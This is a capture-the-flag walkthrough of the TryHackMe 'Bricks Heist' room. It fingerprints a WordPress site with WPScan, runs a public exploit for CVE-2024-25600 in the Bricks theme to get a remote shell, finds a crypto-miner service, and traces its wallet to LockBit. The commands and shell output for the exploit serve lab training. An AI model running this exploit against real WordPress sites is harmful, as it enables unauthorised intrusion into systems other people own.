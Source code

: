# TryHack3M: Bricks Heist

## 🔗 [Bricks Heist on TryHackMe](https://tryhackme.com/room/tryhack3mbricksheist)

## Overview

* **Difficulty:** Easy
* **Category:** Web / WordPress / Exploitation / OSINT
* **Skills Practiced:** WordPress fingerprinting, theme vulnerability scanning, exploit setup & execution, post-exploitation enumeration, basic OSINT on cryptocurrency wallets

## Tools & Techniques

* `wpscan` – WordPress fingerprinting and surface discovery
* `gobuster` / robots.txt inspection – directory discovery (robots revealed /wp-admin)
* CVE exploit script (CVE-2024-25600) – Python exploit from public repo
* `python3 -m venv` & `pip` – build and run exploit in virtualenv
* `systemctl` / `ls` / `cat` – post-exploitation enumeration
* CyberChef / online blockchain explorer – decode and lookup Bitcoin address, OSINT on transactions

## Walkthrough (Step-by-Step)

### 1. Hosts setup

* Add host mapping to `/etc/hosts`.

	```bash
	sudo vim /etc/hosts
	```

	Paste the following
	```text
	Add to /etc/hosts:
	<thm-ip> bricks.thm
	```

### 2. Check robots.txt (discover admin paths)

* Visit `bricks.thm/robots.txt` or use curl/browser.

* `/wp-admin/` is listed.

	**Key Point:** robots.txt can reveal admin endpoints to target.

### 3. WordPress fingerprinting with WPScan

* Run `wpscan` (disable TLS checks if using hostname mapped to IP with self-signed cert).

	```bash
	wpscan --url https://bricks.thm
	# If SSL fails:
	wpscan --url https://bricks.thm --disable-tls-checks
	```

	**Findings (important excerpts):**

	```
	[+] URL: https://bricks.thm/ [<thm-ip>]
	[+] robots.txt found: ... /wp-admin/ ...
	[+] XML-RPC enabled: https://bricks.thm/xmlrpc.php
	[+] WordPress version 6.5 identified
	[+] WordPress theme in use: bricks
	Version: 1.9.5 (80% confidence)
	```

	**Key Point:** WPScan reveals WordPress version & theme — useful to search for theme-specific CVEs.

### 4. Locate theme vulnerability (CVE-2024-25600)

* Identify that the `bricks` theme likely has a public exploit (search by theme name + CVE).

	```text
	# (manual/OSINT) Search for: "bricks theme exploit CVE-2024-25600"
	# Found repo: https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT
	```

* Public exploit code exists for the `bricks` theme vulnerability (CVE-2024-25600).

### 5. Prepare exploit environment (virtualenv + deps)

* Clone or copy exploit script, set up Python venv, install requirements before running.

	```bash
	python3 -m venv venv
	source venv/bin/activate
	pip install -r requirements.txt
	```

### 6. Run exploit (interactive shell)

* Execute exploit script against `https://bricks.thm`.

	```bash
	python3 exploit.py -u https://bricks.thm
	```

	**Output (session excerpt):**

	```
	[*] Checking if the target is vulnerable
	[+] The target is vulnerable
	[*] Initiating interactive shell
	[+] Interactive shell opened successfully
	Shell> ls
	650c844110baced87e1606453b93f22a.txt
	index.php
	kod
	license.txt
	phpmyadmin
	...
	Shell> cat 650c844110baced87e1606453b93f22a.txt
	THM{fl46_650c844110baced87e1606453b93f22a}
	```

	**Findings:**

	* Exploit succeeded and opened an interactive shell.
	* **Flag found:** `THM{fl46_650c844110baced87e1606453b93f22a}`.

### 7. Enumerate running services (post-exploitation)

* List active services to spot suspicious services or service units (in shell).

	```bash
	systemctl list-units --type=service --state=running
	```

	**Findings (excerpt):**

	```
	ubuntu.service                                 loaded active running TRYHACK3M
	```

### 8. Inspect suspicious systemd service

* View the unit file to see what the service runs (in shell).

	```bash
	systemctl cat ubuntu.service
	```

	**Output:**

	```
	# /etc/systemd/system/ubuntu.service
	[Unit]
	Description=TRYHACK3M

	[Service]
	Type=simple
	ExecStart=/lib/NetworkManager/nm-inet-dialog
	Restart=on-failure

	[Install]
	WantedBy=multi-user.target
	```

	**Findings:**

	* The service runs `/lib/NetworkManager/nm-inet-dialog`. Process name: `nm-inet-dialog`.

### 9. Inspect NetworkManager files

* List files in `/lib/NetworkManager/` and view relevant config (in shell).

	```bash
	ls /lib/NetworkManager/
	head /lib/NetworkManager/inet.conf
	```

	**Findings (excerpt from inet.conf):**

	```
	ID: 5757314e65474e59... (base64/hex blob)
	2024-04-08 10:46:04,743 [*] confbak: Ready!
	2024-04-08 10:46:04,743 [*] Status: Mining!
	2024-04-08 10:46:08,745 [*] Miner()
	...
	```

	**Key Point:** `inet.conf` contains an encoded blob and logs referencing "Mining" and "Bitcoin Miner". The blob likely contains encoded data (e.g., concatenated Bech32 addresses).

### 10. Decode embedded blob (CyberChef / base-decoder)

* Copy the encoded blob and decode with CyberChef or equivalent decoders until you get readable text (Bech32 strings start with `bc1`).

	**Findings:**

	* Decoded concatenation contains:

		```
		bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa
		```

	* Which splits into two Bech32 addresses; valid one found:

	* `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`

	**Key Point:** Malware/miner configuration stored crypto-wallet addresses — good OSINT target.

### 11. Blockchain OSINT (lookup wallet activity)

* Use a blockchain explorer (e.g., blockchain.com explorer) to search wallet transactions.

	```text
	https://www.blockchain.com/explorer/address/bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
	```

* Wallet shows large transactions. OSINT on the wallet leads to references linking to sanctions/OFAC material — one path leads to an entry naming an individual "Ivan Gennadievich" and links to LockBit ransomware group.

	**Key Point:** Crypto-address OSINT can connect infrastructure to threat actors (in this case, evidence points to LockBit).
